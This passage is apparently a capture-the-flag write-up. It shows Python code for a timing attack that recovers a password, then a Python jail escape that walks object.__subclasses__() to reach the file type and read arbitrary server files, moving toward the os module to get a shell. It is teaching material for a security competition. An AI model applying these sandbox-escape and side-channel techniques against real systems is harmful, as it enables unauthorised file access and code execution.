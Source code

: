 	cs = string.letters+string.punctuation+string.digits+' '
	a = ''
	for i in range(12):
		for c in cs:
			s = 'a'*(i)+c+'a'*(12-i-1)
			if try_password(s) > 1000:
				a+=c
				break

	print a

The password we extracted by this method was `S@nd_will2z0`, and providing this as the password returns the flag `Time_works_for_you`. Perhaps a timing attack was the intended solution?

### Exploits 300

We're challenged to escape a jail, and a few first submissions return Python-style errors. 

Apart from missing builtins, there appear to be no restrictions on input characters, so we don't need any encoding tricks. 

In a local interpreter I tried to find a reference to `os` so I could open a shell. We can start by listing the subclasses of `object`:

	>>> object.__subclasses__()
	[<type 'type'>, <type 'weakref'>, <type 'weakcallableproxy'>, <type 'weakproxy'>, <type 'int'>, <type 'basestring'>, <type 'bytearray'>, <type 'list'>, <type 'NoneType'>, <type 'NotImplementedType'>, <type 'traceback'>, <type 'super'>, <type 'xrange'>, <type 'dict'>, <type 'set'>, <type 'slice'>, <type 'staticmethod'>, <type 'complex'>, <type 'float'>, <type 'buffer'>, <type 'long'>, <type 'frozenset'>, <type 'property'>, <type 'memoryview'>, <type 'tuple'>, <type 'enumerate'>, <type 'reversed'>, <type 'code'>, <type 'frame'>, <type 'builtin_function_or_method'>, <type 'instancemethod'>, <type 'function'>, <type 'classobj'>, <type 'dictproxy'>, <type 'generator'>, <type 'getset_descriptor'>, <type 'wrapper_descriptor'>, <type 'instance'>, <type 'ellipsis'>, <type 'member_descriptor'>, <type 'file'>, <type 'PyCapsule'>, <type 'cell'>, <type 'callable-iterator'>, <type 'iterator'>, <type 'sys.long_info'>, <type 'sys.float_info'>, <type 'EncodingMap'>, <type 'fieldnameiterator'>, <type 'formatteriterator'>, <type 'sys.version_info'>, <type 'sys.flags'>, <type 'exceptions.BaseException'>, <type 'module'>, <type 'imp.NullImporter'>, <type 'zipimport.zipimporter'>, <type 'posix.stat_result'>, <type 'posix.statvfs_result'>, <class 'warnings.WarningMessage'>, <class 'warnings.catch_warnings'>, <class '_weakrefset._IterationGuard'>, <class '_weakrefset.WeakSet'>, <class '_abcoll.Hashable'>, <type 'classmethod'>, <class '_abcoll.Iterable'>, <class '_abcoll.Sized'>, <class '_abcoll.Container'>, <class '_abcoll.Callable'>, <class 'site._Printer'>, <class 'site._Helper'>, <type '_sre.SRE_Pattern'>, <type '_sre.SRE_Match'>, <type '_sre.SRE_Scanner'>, <class 'site.Quitter'>, <class 'codecs.IncrementalEncoder'>, <class 'codecs.IncrementalDecoder'>]

To reach `object` in the challenge, it was necessary to follow the class hierarchy from any object, like a number or tuple. We can instantiate a file object and read it:

	>>> ().__class__.__bases__[0].__subclasses__()[40]
	<type 'file'>
	>>> ().__class__.__bases__[0].__subclasses__()[40]('filename.txt','r').read()

Then, we tried reading `flag`, `key`, `flag.txt` and so on, none of which were found. Then, we noticed that we had an absolute path to `exploit300.py` (`/home/john/exploit300.py`) in the traceback when EOF is sent. So, we read that absolute path and retrieved the script, included farther below. As suspected, though the builtins are empty, there are no restrictions on input. Now we need to get a shell. [Eindbazen's pCTF pyjail solution](http://eindbazen.net/2013/04/pctf-2013-pyjail-misc-400/) used the same trick to get a list of classes, and then indexed into it to traverse to the `os` module: 
